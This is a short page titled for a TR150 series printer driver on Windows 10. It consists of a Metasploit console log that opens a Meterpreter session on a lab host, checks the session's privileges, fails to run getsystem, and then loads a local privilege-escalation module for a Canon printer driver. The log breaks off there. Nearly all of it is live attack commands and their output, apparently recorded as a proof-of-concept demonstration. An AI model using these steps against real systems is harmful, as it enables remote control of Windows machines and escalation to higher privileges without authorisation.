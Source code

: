 ### TR150 series Printer Driver Ver.1.00 On Windows 10 20H2

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 192.168.224.211
RHOST => 192.168.224.211
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 192.168.224.211:4444
[*] Sending stage (200262 bytes) to 192.168.224.211
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.224.211:4444) at 2021-08-09 14:11:47 -0500

meterpreter > getuid
Server username: DESKTOP-DIK4B96\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/canon_driver_privesc
[*] Using configured payload windows/meterpreter/reverse_tcp
```